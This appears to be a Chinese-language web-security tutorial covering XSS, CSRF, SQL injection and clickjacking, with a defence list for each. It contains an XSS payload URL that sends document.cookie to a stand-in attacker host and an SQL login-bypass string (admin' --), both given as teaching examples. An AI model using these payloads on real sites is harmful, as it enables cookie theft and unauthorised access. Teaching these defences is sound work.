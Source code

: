 # 常见大Web安全攻防解析

## XSS 跨站脚本攻击
通过注入运行非法 js 脚本或 html 标签对存在web安全漏洞的网站进行攻击的一种方式。XSS 攻击有两种，非持久型和持久型。

### 非持久型

一般是通过给别人发送带有恶意参数的 URL，当 URL 被打开时，这些参数会被浏览器解析运行从而达到窃取用户数据或其他攻击目的。

比如前端代码长这样
```js
let arg = location.href.substring(location.href.indexOf('arg=') + 4);
document.write(arg);
```

那攻击者可以这样修改参数进行攻击

```http://www.example.com?arg=<img src="xx" onerror="post('pianzi.com?cakemonster=' + escape(document.cookie))"/>```

### 持久型

通过表单输入等方式输入并提交恶意脚本到服务器数据库，后前端页面从服务器获取该数据会渲染执行恶意脚本。

这种攻击方式直接以正常功能提交即可，比如文章评论。危害比非持久型要大，只要需要获取该数据的客户端就有可能收到攻击。但这种攻击可以实现的条件也比较苛刻。需要前后端都没有做字符转义且前端拿到数据后直接 dom 渲染。

XSS 的防御：
- 尽量确保web页面的渲染数据来自服务器（不要用url传参这种）
- 尽量不使用document.write(), eval(), innerHTML这种可以执行字符串的方法
- 涉及dom渲染前对传入字符串参数进行转义操作（现代浏览器一般都有 XSS 防御）
- 给cookie设置httponly
- CSP
    - 设置 HTTP Header 中的 Content-Security-Policy
    - 添加 `<meta http-equiv="Content-Security-Policy">`

## CSRF 跨站请求伪造

攻击原理：

1. 用户访问被信任的网站A并登陆
2. 登陆成功，用作身份标志的 Cookie 被存在了浏览器里
3. 用户没有登出网站A的同时（也就是没有清除本地的 Cookie）访问了危险网站B
4. 危险网站B在用户无感知的情况下向网站偷偷发送一个致命请求
5. Cookie 默认被自动带上，服务器验证了 Cookie 以为是用户本人做的操作，Boom ~

防御：
- 通过检查 http 请求头 referer 的值是不是这个页面，来判断是不是CSRF攻击（referer有可能会被篡改）
- 加入验证码用来区分是普通用户行为还是黑客行为（验证码多了体验不好）
- get请求不修改信息（post其实也没用，脚本可以伪造提交表单）
- 可以对 Cookie 设置 SameSite 属性。该属性表示 Cookie 不随着跨域请求发送
- 直接不使用 cookie 而是加入 Anti-CSRF-Token。即发送请求时在 HTTP 请求中以参数的形式加入一个随机产生的 token，并在服务器建立一个拦截器来验证这个 token。服务器读取浏览器当前域 cookie 中这个 token 值，会进行校验该请求当中的 token  和cookie 当中的 token 值是否都存在且相等，才认为这是合法的请求。否则认为这次请求是违法的，拒绝该次服务。

## SQL注入

通过表单输入部分 sql 语句达到攻击手段。举个例子，现在有一个登陆表单，大概是这样：

```html
<form action="/login" method="POST">
  <p>Username: <input type="text" name="username" /></p>
  <p>Password: <input type="password" name="password" /></p>
  <p><input type="submit" value="登陆" /></p>
</form>
```

后端拿到 username 和 password 进行查表操作的 sql 语句

```sql
SELECT * FROM user WHERE username='xxx' AND password='xxx';
```

然后黑客输入 username 为 ```admin' --``` 。sql 语句变成了

```sql
SELECT * FROM user WHERE username='admin' --' AND password='xxx';
```

防御：

- 严格限制 Web 应用的数据库的操作权限
- 转义，检查输入字符，对特殊字符（sql 语句相关 比如 - ）进行转义操作
- 不直接动态拼接 sql 语句，使用参数化 sql 或者存储过程进行存取

## 点击劫持

攻击者将需要攻击的网站通过 iframe 嵌套的方式嵌入自己的网页中，并将 iframe 设置为透明，在页面中透出一个按钮诱导用户点击。（UI覆盖攻击）

防御：
- 设置响应头X-FRAME-OPTIONS
    - DENY，表示页面不允许通过 iframe 的方式展示
    - SAMEORIGIN，表示页面可以在相同域名下通过 iframe 的方式展示
    - ALLOW-FROM，表示页面可以在指定来源的 iframe 中展示

